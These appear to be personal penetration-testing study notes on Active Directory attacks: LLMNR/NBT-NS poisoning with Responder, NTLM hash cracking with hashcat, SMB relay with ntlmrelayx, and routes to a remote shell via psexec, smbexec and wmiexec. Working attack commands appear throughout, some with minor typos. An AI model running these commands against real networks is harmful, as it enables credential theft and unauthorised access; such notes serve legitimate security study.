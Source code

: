 #### LLMNR/NBT-NS poisoning  
> [!NOTE]
> 
>  Run at that time when people will be joining back or going to login or relogin.

- Link Local Multicast Name Resolution  
- Used to identify host when DNS fails.
- Previously NBT-NS
	NBT-NS, or NetBIOS Name Service, is an older protocol that facilitates name resolution in networks, especially when DNS servers are not available or do not provide suitable responses. It allows computers to register and resolve names to IP addresses using NetBIOS.
- Key flow is the services utilize a user's username and NTLM hash appropriately responded to  
##### Commands  

Responder
```bash 
responder -I etho -rdwv
hashcat -m 5600 ntlmhash.txt rockyou.txt
```
`
![[Screenshot 2024-09-16 at 1.02.12 PM.png]] 


#### SMB Relay
Instead of cracking the hashes gathered with responder, we can instead relay those hashes to machines and potential gain access 

Requirements
Without SMB signing Enforced
Relayed user credential must be admin on machine

1. Identify the host which have smb disabled. 
   `nmap --script=smb2-security-mode.nse -p445 192.168.0.1/24`
2. Change the Responder config 
	```
	nano /etc/responder/Responder.conf
	SMB = off
	HTTP = off
	```
3.  Start the responder 
   `responder -I etho -rdwv`
4. Start the relay 
   `python ntmlrelay.py -tf target.txt -smbsupport`
   
   Use `-i` for the interactive shell 
   `python ntmlrelay.py -tf target.txt -smbsupport -i`

![[Screenshot 2024-09-17 at 7.54.01 AM.png]]

#### Get a shell access
There are fews ways 
1. Mfconsole use psexec - pass the smb useranme and password.
2. psexec.py - pass the smb useranme and password.
3. smbexec.py
4. wmiexec.py

#### Pass back attack on printers
